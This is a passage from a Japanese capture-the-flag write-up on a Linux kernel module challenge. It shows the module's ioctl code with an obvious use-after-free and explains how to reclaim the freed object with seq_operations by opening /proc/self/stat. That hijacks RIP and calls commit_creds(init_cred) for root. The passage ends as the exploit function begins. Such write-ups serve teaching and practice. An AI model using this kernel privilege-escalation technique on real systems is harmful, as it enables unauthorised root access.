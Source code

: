 ```c
    if (copy_from_user(obj->buf, data, size) != 0) {
        return -1;
    }
    return 0;
}

static long obj_free(void) {
    kfree(obj);
    return 0;
}

static long module_ioctl(struct file *file, unsigned int cmd, unsigned long arg) {
    request_t req;
    long ret;
    if (copy_from_user(&req, (void *)arg, sizeof(req)) != 0) {
        return -1;
    }
    mutex_lock(&module_lock);
    switch(cmd) {
        case CMD_ALLOC:
            ret = obj_alloc();
            break;
        case CMD_WRITE:
            ret = obj_write(req.data, req.size);
            break;
        case CMD_FREE:
            ret = obj_free();
            break;
        default:
            ret = -1;
            break;
    }
    mutex_unlock(&module_lock);
    return ret;
}
```

自明なUAFがある。`0x20`サイズなので、[`seq_operations`が使えそう](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628#seq_operations)。
`alloc` → `free` → `open("/proc/self/stat")` → `write` → `read` で RIPが取れる。

さて、起動スクリプトを見るとなんと `nokaslr nopti` の文字が！
ユーザ空間で適当な関数を作成し、`commit_cred(init_cred)`をカーネルから呼び出せばrootが取れる。

```c
#define CMD_ALLOC 0xf000
#define CMD_WRITE 0xf001
#define CMD_FREE 0xf002

typedef struct {
  size_t size;
  char *data;
} request_t;

int open_vuln(void);
void close_vuln(void);
int obj_alloc(void);
int obj_write(const char *buf, size_t len);
int obj_free(void);

static int dev_fd = -1;

void exploit() {
  // call commit_cred(INIT_CRED)
```